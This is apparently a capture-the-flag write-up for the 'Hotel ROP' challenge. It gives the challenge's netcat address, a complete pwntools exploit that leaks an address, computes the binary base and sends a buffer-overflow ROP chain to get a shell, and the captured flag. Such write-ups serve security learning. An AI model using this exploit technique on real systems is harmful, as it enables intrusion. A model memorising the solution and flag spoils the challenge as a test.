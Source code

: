 # Hotel ROP

## Description

They say programmers' dream is California. And because they need somewhere to stay, we've built a hotel!

`nc dctf1-chall-hotel-rop.westeurope.azurecontainer.io 7480`

[hotel_rop](hotel_rop)

## Solution

```python
from pwn import *

nc = remote('dctf1-chall-hotel-rop.westeurope.azurecontainer.io', 7480)

nc.recvuntil('street ')
main = int(nc.recvlineS(), 0)

offset  = main   - 0x10136d

pop_rdi = offset + 0x10140b
pop_rsi = offset + 0x101409

rop1    = offset + 0x1011dc
rop2    = offset + 0x101283
rop3    = offset + 0x101185

log.info(f"Program @ {hex(offset)}")

payload = [
    b'A' * 40,
    p64(rop1),
    p64(rop2),
    p64(pop_rdi),
    p64(0x1337c0de),
    p64(pop_rsi),
    p64(0xffffffffcb760000),
    p64(0xffffffffcb760000),
    p64(rop3),
]

nc.recvline()
nc.sendline(b''.join(payload))

nc.interactive()
```

#### **FLAG >>** `dctf{ch41n_0f_h0t3ls}`